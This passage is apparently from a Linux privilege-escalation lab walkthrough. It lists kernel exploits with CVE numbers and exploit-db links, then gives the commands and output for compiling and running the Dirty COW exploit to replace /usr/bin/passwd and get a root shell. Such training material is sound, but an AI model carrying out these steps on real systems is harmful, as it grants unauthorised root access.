 ```
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [8] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [9] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
  [10] ptrace_kmod2
      Alt: ia32syscall,robert_you_suck       CVE-2010-3301
      Source: http://www.exploit-db.com/exploits/15023
  [11] rawmodePTY
      CVE-2014-0196
      Source: http://packetstormsecurity.com/files/download/126603/cve-2014-0196-md.c
  [12] rds
      CVE-2010-3904
      Source: http://www.exploit-db.com/exploits/15285
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024
```
The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):
```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```
output:
```
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 33231000

ptrace 0
```
Once the exploit completes, run /usr/bin/passwd to gain a root shell:
```
/usr/bin/passwd
```
output:
```
user@debian:~$ /usr/bin/passwd 
root@debian:/home/user# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!
```
mv /tmp/bak /usr/bin/passwd
exit
```
